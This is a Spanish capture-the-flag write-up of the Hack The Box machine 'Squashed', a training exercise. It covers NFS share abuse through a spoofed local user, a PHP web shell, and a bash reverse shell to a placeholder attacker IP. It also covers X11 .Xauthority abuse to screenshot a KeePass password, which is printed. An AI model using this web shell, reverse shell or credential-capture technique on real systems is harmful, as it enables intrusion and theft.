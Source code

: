 ```yaml
---
layout: single
title: Squashed - Hack The Box
excerpt: "En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario." 
date: 2023-04-17
classes: wide
header:
  teaser: /assets/images/HTB/writeup-squashed/Squashed.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Easy
  - CFTs
tags:
  - Privilege Escalation
  - Pentesting
  - Linux
  - NFS mount
---
```



![](/assets/images/HTB/writeup-squashed/Squashed.png)

    
       
## Introducción 


En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario.



## Reconocimiento de Puertos [🔍]

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.


![](/assets/images/HTB/writeup-squashed/TrazaICMP.png)


En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una maquina <span style="color:green"> Linux </span>.

| TTL    | Sistema Operativo | 
| :----- | :------- | 
| 64     | Linux    | 



Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.


```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/images/HTB/writeup-squashed/nmap1.png)


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/images/HTB/writeup-squashed/nmap2.png)


## Puerto 2049 


Por lo que veo, obtengo esta información y me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)



```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/images/HTB/writeup-squashed/showmount.png)

Obtengo estos dos directorios:

|  /home/ross  |  /var/www/html  |

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross** y **/mnt/web_server** en el directorio **/mnt** y luego los monto.


```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...


![](/assets/images/HTB/writeup-squashed/listadodedirectorios.png)


Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...


![](/assets/images/HTB/writeup-squashed/cdwebserver.png)

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio.


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

Ok pensando un poco podria burlar el **user1** creando uno en mi maquina. 


![](/assets/images/HTB/writeup-squashed/directorioswebserver.png)

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**.

```bash
# Script php
----------------------
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL

![](/assets/images/HTB/writeup-squashed/cmd=ls-l.png)

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)



```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/images/HTB/writeup-squashed/reverseshell.png)

Antes de continuar actualizo la tty. 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```



## Escalada de Privilegios .Xauthority ☣️


Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tegno acceso al archivo. 


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)


No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario. 



```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```


![](/assets/images/HTB/writeup-squashed/Screenshotxwd.png)


Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**.


```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```


![](/assets/images/HTB/writeup-squashed/convert.png)

Abro el screenshot y listo ahi se ve la **password**.


![](/assets/images/HTB/writeup-squashed/screenshot.png)


Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme en usuario **root**.


![](/assets/images/HTB/writeup-squashed/rootalex.png)

Ya tenemos acceso a la <span style="color:red"> **Flag**.
  
  
  

